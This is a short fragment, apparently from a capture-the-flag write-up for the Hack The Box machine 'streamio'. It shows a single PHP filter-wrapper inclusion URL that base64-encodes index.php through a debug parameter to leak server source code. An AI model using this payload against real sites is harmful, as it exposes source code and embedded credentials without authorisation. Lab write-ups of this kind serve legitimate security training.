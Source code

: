 PHP wrapper base64 file
`https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php`
